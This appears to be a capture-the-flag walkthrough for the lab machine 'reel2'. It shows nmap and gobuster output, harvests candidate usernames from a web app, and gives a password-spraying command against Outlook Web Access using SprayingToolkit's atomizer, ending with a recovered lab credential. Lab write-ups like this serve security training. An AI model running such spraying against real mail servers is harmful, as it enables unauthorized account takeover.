



## reel2


#### nmap

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: 403 - Forbidden: Access is denied.
443/tcp  open  ssl/https?
|_ssl-date: 2020-10-06T10:30:19+00:00; +51s from scanner time.
6001/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc      Microsoft Windows RPC
6006/tcp open  msrpc      Microsoft Windows RPC
6007/tcp open  msrpc      Microsoft Windows RPC
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.32)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.32
|_http-title: Welcome | Wallstant


#### web

- with gobuster found some interesting directories
  - we found owa directory but we dont have any credentials

```
/aspnet_client (Status: 301)
/public (Status: 302)
/. (Status: 200)
/exchange (Status: 302)
/Public (Status: 302)
/rpc (Status: 401)
/owa (Status: 301)
/Aspnet_client (Status: 301)
/PUBLIC (Status: 302)
/aspnet_Client (Status: 301)
/ecp (Status: 301)
/ews (Status: 301)
/Exchange (Status: 302)
/ASPNET_CLIENT (Status: 301)
```

- we go port 8080 and create a account
- collect all the potential usernames and password on of them being something around summer




#### spray toolkit

```
https://github.com/byt3bl33d3r/SprayingToolkit.git
```

- we will use to spray username and password and check if we can find any valid credetials



```
./atomizer.py owa 10.10.10.210 ../pass64.txt ../users.txt --targetPort 443 -i 0:0:01
```



##### credentialss.svensson

```
s.svensson:Summer2020
```


